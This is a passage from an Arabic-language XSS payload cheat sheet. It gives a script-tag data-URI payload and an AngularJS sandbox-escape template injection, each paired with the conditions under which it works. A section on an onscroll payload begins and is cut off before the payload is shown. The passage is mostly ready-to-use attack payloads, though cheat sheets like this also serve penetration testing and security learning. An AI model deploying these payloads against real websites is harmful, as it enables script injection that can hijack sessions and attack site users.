 لكن **مفيش قوس إغلاق `</script>` بعد مدخلك**.

### 🔥 استغلال:

```html
<script src=data:,alert(1)>
```

### 📌 استخدمه لما:

- مدخلك بيتحقن جوه `<script>` مباشرة.
    
- مفيش تعقيم، والـ`</script>` لسه هييجي بعد كده.
    

---
## 2️⃣0️⃣   **حقن AngularJS**

### 🧠 متى تستخدمه؟

لما تلاقي إن الصفحة فيها:

```html
<html ng-app>
```

أو:

```html
<div ng-app>
```

### 🔥 استغلال:

```html
{{$new.constructor('alert(1)')()}}
```

### 📌 استخدمه لما:

- AngularJS v1.x مستخدم.
    
- مفيش Sandbox فعال.
    
- الصفحة بتعكس مدخلك داخل `{{ }}`.
    

---

## ✅  **Universal Onscroll Payload**
{ #XSS--ALL--Event--Payload }
### 🧠 متى تستخدمه؟

لو تقدر تحقن عنصر HTML وعايز كود يتنفذ **بمجرد التمرير**.

### 🔥 استغلال:
